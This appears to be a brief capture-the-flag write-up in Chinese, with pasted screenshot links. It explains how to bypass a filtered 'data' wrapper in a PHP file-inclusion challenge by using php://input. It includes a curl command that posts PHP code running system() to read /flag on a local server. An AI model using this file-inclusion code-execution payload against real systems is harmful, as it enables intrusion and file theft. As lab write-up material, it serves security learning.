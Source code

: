 ![[Pasted image 20241026210635.png]]

过滤了`data`伪协议，用`php://input`或者`php://filter`构造内容绕过即可，注意php标签

```shell
curl -s 'localhost:8080?file=php://input' --data-raw 'Plastic chair<?php system("cat /flag");' | grep Spirit
```

![[Pasted image 20241026210831.png]]